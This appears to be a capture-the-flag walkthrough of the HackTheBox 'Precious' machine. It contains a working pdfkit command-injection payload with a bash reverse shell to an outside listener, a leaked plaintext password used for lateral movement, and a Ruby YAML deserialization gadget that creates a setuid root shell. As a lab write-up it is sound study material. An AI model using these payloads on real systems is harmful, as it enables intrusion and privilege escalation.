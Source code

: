 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon Phase

### Nmap Full Port + Version Scan
```bash
nmap -p- --min-rate 10000 10.10.11.189
nmap -p 22,80 -sCV 10.10.11.189
```

### Add Host Entry
```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

### [FFUF](HTTP.md) Subdomain Fuzzing
```bash
ffuf -u http://10.10.11.189 -H "Host: FUZZ.precious.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### Feroxbuster Directory Brute Force
```bash
feroxbuster -u http://precious.htb
```

---

## 🖨️ Exploiting PDF Generation (Command Injection)

### Exiftool Analysis
```bash
exiftool output.pdf
# -> Shows "Generated by pdfkit v0.8.6"
```

### Vulnerability
- `pdfkit v0.8.6` vulnerable to command injection (CVE-2022-25765)

### POC to Leak `id`
```bash
http://10.10.14.6/?name=%20`id`
```

### Reverse Shell (Bash)
```bash
# Listener
nc -lnvp 443

# Payload (submit in URL field of form)
http://10.10.14.6/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"`
```

### Shell Upgrade
```bash
script /dev/null -c bash
# ^Z
stty raw -echo; fg
reset
# Terminal type? screen
```

---

## 👤 Escalating to User `henry`

### Look for Creds in `.bundle`
```bash
cat ~/.bundle/config
# => username: henry, password: Q3c1AqGHtoI0aXAYFH
```

### `su` to Henry
```bash
su - henry
# OR
sshpass -p 'Q3c1AqGHtoI0aXAYFH' ssh henry@precious.htb
```

---

## ⚙️ Privilege Escalation via Unsafe YAML

### Check Sudo Access
```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

### Vulnerable Line
```ruby
YAML.load(File.read("dependencies.yml"))
```

### Create Exploit Payload
```yaml
# dependencies.yml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
        method_id: :resolve
```

### Run Exploit
```bash
cd /dev/shm
sudo ruby /opt/update_dependencies.rb
```

### Get Root Shell
```bash
/tmp/rootbash -p
id
cat /root/root.txt
```

---

## 🔬 Beyond Root – PDFKit Debug + Local Access Fix

### Problem
- Server fails to fetch internal URLs like `http://127.0.0.1` or `http://precious.htb`.

### Fix
```bash
echo "127.0.0.1 precious.htb" | sudo tee -a /etc/hosts
```